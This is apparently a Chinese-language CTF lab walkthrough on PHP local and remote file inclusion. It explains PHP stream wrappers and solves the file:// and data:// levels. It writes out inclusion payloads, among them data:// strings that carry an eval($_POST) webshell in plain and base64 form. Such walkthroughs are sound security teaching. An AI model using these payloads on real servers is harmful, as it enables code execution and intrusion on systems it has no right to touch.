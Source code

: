 **"路径定义的支持程度"：** 如果定义了路径——不管是绝对路径（在 Windows 下以盘符或者 `\` 开头，在 Unix/Linux 下以 `/` 开头）还是当前目录的相对路径（以 `.` 或者 `..` 开头）——[include_path](https://www.php.net/manual/zh/ini.core.php#ini.include-path) 都会被完全忽略。例如一个文件以 `../` 开头，则解析器会在当前目录的父目录下寻找该文件。

### Level 1 file协议

Level 1 ~ Level 9 为协议部分的知识关卡，这部分在PHP手册也叫封装协议 - [【PHP手册 - 支持的协议和封装协议(wrappers)】](https://www.php.net/manual/zh/wrappers.php)

| 协议名称                           | 功能                                                         | `allow_url_fopen` | `allow_url_include` | 示例                                                         |
| ---------------------------------- | ------------------------------------------------------------ | ----------------- | ------------------- | ------------------------------------------------------------ |
| `file://`                          | 访问本地文件系统                                             | Off/On        | **无**              | `file:///flag`                                               |
| `data://`                          | 数据（RFC 2397）                                             | **On**            | **On**              | `data://text/plain,<?php phpinfo();?>`<br /> `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+` |
| `http://`                          | 访问 HTTP(s) 网址                                            | **On**            | **On**              | `https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI` |
| `php://`                           | 访问各个输入/输出流（I/O streams）                           | Off/On        | 基于参数            | `php://xxx`                                                  |
| `php://input`                      | 访问请求的原始数据的只读流（RAW模式下POST中的DATA数据块）    | Off/On        | **On**              | `php://input` + [POST DATA部分]                              |
| `php://filter`                     | 用于数据流打开时的筛选过滤应用                               | Off/On        | Off/On          | `php://filter/x=A\|B\|C\|/resouce=xxx`                       |
| `zlib:// compress.bzip2:// zip://` | 压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，支持任意后缀。 | Off/On        | Off/On          | `zip://[压缩文件绝对路径]#[压缩文件内的子文件名]`<br />`compress.zlib://file.gz` <br />`compress.bzip2://file.bz2` |
| `phar://`                          | PHP 归档                                                     |                   | ？                  | ？                                                           |

协议的介绍请跟进每个关卡中注释引导部分。

由于题目限定使用file协议：`include("file://".$_GET['wrappers'])` 所以你只能使用绝对路径来完成题目，当然，题目使用 `__DIR__` 告知了你当前路径，

若按照题目提示`?wrappers=/var/www/html/phpinfo.txt` 可以包含当前路径下的  `<?php phpinfo(); ?>`  您可以看到 phpinfo 页面，虽然为.txt文本文件，但文件内容符合php代码规范，因此它能够被执行 —— 这一定说明，被包含的文件是否能被执行只取决于其文件内容。

若按照题目提示 `?wrappers=/var/www/html/flag.php` 你会发现屏幕没有任何变化，F12查看源码也没有发现任何注释的新增，这是因为 flag.php 中 flag以静态变量形式存储：

```
<?php $flag = "HelloCTF{Test_Flag}"; ?>
```

由于并没有输出操作，它只会被加载到服务器或者说容器的内存中，这种形式的FLAG您无法通过单纯包含得到。

本题 Flag 有文本形式，只需要包含根目录下的 flag 文本即可： `?wrappers=/flag` 

最终执行的操作语句：`include("file:///flag");`

### Level 2 data协议

在注释引导中对该协议已经介绍的非常详细，其支持文本和base64形式。

> 如果传入的数据是PHP代码，就会执行代码：
>```
> data://text/plain,<?php phpinfo();?>
>
> data://text/plain,<?php eval($_POST['helloctf']);?>
>
> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
>
> data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGxvY3RmJ10pOz8+
>
> or data:text/plain
>```

